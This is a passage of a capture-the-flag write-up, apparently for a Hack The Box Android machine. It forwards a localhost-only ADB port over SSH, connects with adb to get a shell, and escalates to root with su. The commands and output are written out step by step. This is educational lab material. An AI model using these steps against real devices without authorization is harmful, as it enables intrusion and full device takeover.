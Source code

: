 However, when we are checking for open ports, we realize that port 5555 is open. This was the same as we have speculated earlier that port 5555 is not accessible to the public, but accesible via localhost.

```
1|:/ $ ss -lnpt
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=29174,fd=75),("sh",pid=24980,fd=75),("droid.sshserver",pid=3458,fd=75))
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:38647                    *:*                  
LISTEN      0      10           *:42135                    *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:46871                    *:*                  
LISTEN      0      50           *:59777                    *:*                    
```

Knowing that port 5555 is accessible on the localhost, but not publicly accessible, we would need to find a way to forward the port to our local machine. However since we are able to gain SSH access, we can make use of SSH to forward the port to our local machine. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ 
```

Now, we will have to connect to localhost:5555 using adb

```
┌──(kali㉿kali)-[~/Desktop/android-tools]
└─$ ./adb connect localhost:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555
```

However, we do realize that there are more than 1 devices that is running. Hence, we will have to specify the device that we are going to connect to using adb.

```
┌──(kali㉿kali)-[~/Desktop/android-tools]
└─$ ./adb devices                                                                        1 ⨯
List of devices attached
emulator-5554   device
localhost:5555  device

┌──(kali㉿kali)-[~/Desktop/android-tools]
└─$ ./adb -s localhost:5555 shell
x86_64:/ $  
```

However, we are not a root user yet. Hence, we will still have to escalate our privileges using su command.

```
x86_64:/ $ whoami
shell
x86_64:/ $ su root
:/ # whoami
root
```
